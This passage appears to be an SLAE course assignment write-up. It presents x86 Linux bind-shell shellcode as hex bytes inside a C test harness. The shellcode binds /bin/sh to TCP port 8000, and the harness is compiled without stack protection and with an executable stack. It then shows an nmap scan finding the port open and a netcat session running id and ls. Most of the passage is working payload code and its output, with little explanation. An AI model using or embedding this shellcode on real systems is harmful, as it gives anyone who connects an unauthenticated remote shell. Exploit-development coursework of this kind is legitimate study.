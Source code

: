 {% highlight js %}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x31\xff\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x31\xdb\x89\xc3\x66\xb8\x69\x01\x56\x66\x68\x1f\x40\x66\x6a\x02\x89\xe1\xb2\x10\xcd\x80\x66\xb8\x6b\x01\x31\xc9\xcd\x80\x66\xb8\x6c\x01\xcd\x80\x89\xc3\xb1\x03\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf7\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}

{% endhighlight %}

Compile the shellcode.c and run it:
{% highlight js %}
kali@kali:~/Desktop/SLAE-Assignments/assignment1$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
kali@kali:~/Desktop/SLAE-Assignments/assignment1$ ./shellcode 
Shellcode Length:  96

{% endhighlight %}

Nmap Result: 

{% highlight js %}
kali@kali:~$ sudo nmap -p- 127.0.0.1 -vv
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-28 00:15 EDT
Initiating SYN Stealth Scan at 00:15
Scanning localhost (127.0.0.1) [65535 ports]
Discovered open port 8000/tcp on 127.0.0.1
Completed SYN Stealth Scan at 00:15, 0.90s elapsed (65535 total ports)
Nmap scan report for localhost (127.0.0.1)
Host is up, received localhost-response (0.0000050s latency).
Scanned at 2020-08-28 00:15:49 EDT for 1s
Not shown: 65534 closed ports
Reason: 65534 resets
PORT     STATE SERVICE  REASON
8000/tcp open  http-alt syn-ack ttl 64

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.99 seconds
Raw packets sent: 65535 (2.884MB) | Rcvd: 131071 (5.505MB)
{% endhighlight %}

{% highlight js %}
kali@kali:~$ nc 127.0.0.1 8000
id 
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),117(bluetooth),131(scanner)
ls
Screenshot 2020-08-22 17:43:09.png
Screenshot 2020-08-22 17:50:02.png
Screenshot 2020-08-23 15:15:33.png
Screenshot 2020-08-27 16:44:35.png
Screenshot 2020-08-27 16:45:03.png
Screenshot 2020-08-27 16:45:41.png
Screenshot 2020-08-27 16:46:07.png
Screenshot 2020-08-27 16:49:13.png
Screenshot 2020-08-27 16:53:42.png